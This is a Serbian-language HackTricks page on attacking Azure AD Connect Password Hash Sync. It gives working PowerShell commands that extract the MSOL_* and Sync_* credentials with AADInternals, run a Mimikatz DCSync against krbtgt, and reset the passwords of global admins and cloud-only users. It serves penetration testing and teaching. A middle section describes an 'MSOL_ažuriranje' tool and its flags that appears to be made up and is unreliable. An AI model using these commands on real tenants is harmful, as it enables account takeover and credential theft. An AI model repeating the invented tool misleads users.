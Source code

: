 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Pogledajte [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne Informacije

[Iz dokumenata:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** je jedan od metoda prijavljivanja koji se koristi za postizanje hibridnog identiteta. **Azure AD Connect** sinhronizuje hash, hash-a korisničke lozinke iz on-premises Active Directory instance u cloud-based Azure AD instance.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

To je **najčešći metod** koji kompanije koriste za sinhronizaciju on-prem AD sa Azure AD.

Svi **korisnici** i **hash lozinki** se sinhronizuju iz on-prem u Azure AD. Međutim, **lozinke u čistom tekstu** ili **originalni** **hash-ovi** se ne šalju u Azure AD.\
Pored toga, **ugrađene** sigurnosne grupe (kao što su domain admins...) se **ne sinhronizuju** sa Azure AD.

**Sinhronizacija hash-ova** se dešava svakih **2 minuta**. Međutim, po default-u, **istek lozinke** i **istek naloga** se **ne sinhronizuju** u Azure AD. Dakle, korisnik čija je **on-prem lozinka istekla** (nije promenjena) može nastaviti da **pristupa Azure resursima** koristeći staru lozinku.

Kada on-prem korisnik želi da pristupi Azure resursu, **autentifikacija se odvija na Azure AD**.

**PHS** je potreban za funkcije kao što su **Identity Protection** i AAD Domain Services.

## Pivoting

Kada je PHS konfigurisan, neki **privilegovani nalozi** se automatski **kreiraju**:

* Nalog **`MSOL_<installationID>`** se automatski kreira u on-prem AD. Ovaj nalog dobija ulogu **Directory Synchronization Accounts** (pogledajte [dokumentaciju](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) što znači da ima **replication (DCSync) dozvole u on-prem AD**.
* Nalog **`Sync_<name of on-prem ADConnect Server>_installationID`** se kreira u Azure AD. Ovaj nalog može **resetovati lozinku BILO KOJEG korisnika** (sinhronizovanog ili samo cloud) u Azure AD.

Lozinke prethodna dva privilegovana naloga su **skladištene u SQL serveru** na serveru gde je **Azure AD Connect instaliran.** Admini mogu izvući lozinke tih privilegovanih korisnika u čistom tekstu.\
Baza podataka se nalazi u `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Moguće je izvući konfiguraciju iz jedne od tabela, pri čemu je jedna šifrovana:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Šifrovana konfiguracija** je šifrovana sa **DPAPI** i sadrži **lozinke korisnika `MSOL_*`** u on-prem AD i lozinku **Sync\_\*** u AzureAD. Dakle, kompromitovanjem ovih moguće je privesc do AD i do AzureAD.

Možete pronaći [potpun pregled kako su ove akreditacije skladištene i dešifrovane u ovom predavanju](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Pronalaženje **Azure AD connect servera**

Ako je **server gde je Azure AD connect instaliran** pridružen domenu (preporučeno u dokumentima), moguće ga je pronaći sa:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Zloupotreba MSOL\_\*

### MSOL\_ažuriranje

MSOL\_ažuriranje je alatka koja se koristi za upravljanje Azure AD Connect konfiguracijom. Ova alatka može biti zloupotrebljena za dobijanje privilegovanog pristupa.

### MSOL\_ažuriranje -k

Ova komanda može biti korišćena za resetovanje lozinke korisnika. Na primer:

```shell
MSOL\_ažuriranje -k korisnik@domen.com -p NovaLozinka123
```

### MSOL\_ažuriranje -r

Ova komanda može biti korišćena za uklanjanje korisnika iz Azure AD. Na primer:

```shell
MSOL\_ažuriranje -r korisnik@domen.com
```

### MSOL\_ažuriranje -a

Ova komanda može biti korišćena za dodavanje korisnika u Azure AD. Na primer:

```shell
MSOL\_ažuriranje -a korisnik@domen.com
```

### Zaključak

Zloupotreba MSOL\_\* alatki može omogućiti napadaču da dobije pristup i kontroliše Azure AD okruženje.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Možete koristiti i [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) da biste dobili ove kredencijale.
{% endhint %}

### Zloupotreba Sync\_\*

Kompromitovanjem **`Sync_*`** naloga moguće je **resetovati lozinku** bilo kog korisnika (uključujući Globalne Administratore)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Takođe je moguće **modifikovati lozinke samo cloud korisnika** (čak i ako je to neočekivano)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Takođe je moguće izvući lozinku ovog korisnika.

{% hint style="danger" %}
Druga opcija bi bila da **dodelite privilegovane dozvole servisnom principalu**, što **Sync** korisnik ima **dozvole** da uradi, a zatim **pristupite tom servisnom principalu** kao način za privesc.
{% endhint %}

### Seamless SSO

Moguće je koristiti Seamless SSO sa PHS, koji je podložan drugim zloupotrebama. Proverite to u:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Reference

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Naučite i vežbajte AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Delite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
